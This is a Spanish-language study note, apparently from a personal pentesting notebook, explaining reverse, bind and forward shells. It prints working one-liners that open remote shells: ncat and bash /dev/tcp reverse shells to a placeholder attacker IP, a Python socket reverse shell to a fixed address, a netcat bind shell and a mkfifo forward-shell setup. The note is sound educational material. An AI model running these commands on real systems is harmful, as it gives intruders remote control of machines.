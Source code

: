 ```yaml
--- 
- Tags: #explotación #basico #teoria
---
```


# Reverse Shell

Es una técnica que permite a un atacante conectarse a una máquina remota desde una máquina de su propiedad. Es decir, se establece una conexión desde la máquina comprometida hacia la máquina del atacante. Esto se logra ejecutando un programa malicioso o una instrucción específica en la máquina remota que establece la conexión de vuelta hacia la máquina del atacante, premitiéndole tomar el control de la máquina remota. 

En el ejemplo de la imagen, supongamos que la maquina victima tiene expuesto un puerto :80, con un servicio de apache2, el cual, es vulnerable a **RCE** (Remote Code Execution), una vez pudiendo ejecutar comandos como la maquina victima, al atacante le interesaria enviarse una consola interactiva por un puerto que el decida.

![[reverseShell.png|1000]]

Algunos oneliners típicos para lograr esto son:

- #### Haciendo uso de net cat:
```shell
ncat -e /bin/bash {IP_atacante} {puerto}
```

- #### Haciendo uso de bash:
```shell
bash -i >& /dev/tcp/{IP_atacante}/{puerto} 0>&1 
```

- #### Haciendo uso de python: 
```python 
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.38",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

#### Más oneliners [aca](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

---

# Bind Shell 

Esta técnica es el opuesto de la **Reverse Shell**, ya que en lugar de que la máquina comprometida se conecte a la máquina del atacante, es el atacante quien se conecta a la máquina comprometida. El atacante escucha en un puerto determinado y la máquina comprometida acepta la conexión entrante por ese puerto. El atacante luego tiene acceso por consola a la máquina comprometida, lo que le permite tomar el control de la misma. 

En este caso, en el ejemplo de la imagen, el atacante al explotar el **RCE**, inyecta un comando malicioso, en este ejemplo `nc -nlvp 443 -e /bin/bash` que lo que hace es escuchar en el puerto 443 por conexiones, y cuando reciba una, otorgara la consola interactiva.

![[BindShell.png|1000]]

--- 

# Forward Shell 

Esta técnica es utiliza cuando no se pueden estrablecer conexiones **Reverse** o **Bind** debido a reglas de Firewall implementadas en la red. Se logra mediante el uso de **mkfifo**, que crea un archivo **FIFO (named pipe)**, que se utiliza como una espcie de **consola simulada** interactiva a través de la cual el atacante puede operar en la máquina remota. En lugar de establecer una conexión directa, el atacante redirige el tráfico a través del archivo **FIFO**, lo que permite la comunicación bidireccional con la máquina remota.

## Ejemplo: 

#### Si ejecutaramos el sig comando...

```shell
mkfifo input; tail -f input | /bin/bash; 2>&1 > output 
```

#### ...veriamos que se creo un archivo **FIFO** llamado input y un archivo normal llamada output, la idea de esto es que ahora, haciendo uso de descriptores, podriamos redirigir las entradas a input y ver las salidas de estas en output.

```shell
echo "Este comando se va a alojar en output" > input 
cat output 
# ───────┬─────────────────────────────────────────────────
#        │ File: output
# ───────┼─────────────────────────────────────────────────
#    1   │ Este comando se va a alojar en output
# ───────┴─────────────────────────────────────────────────
```

 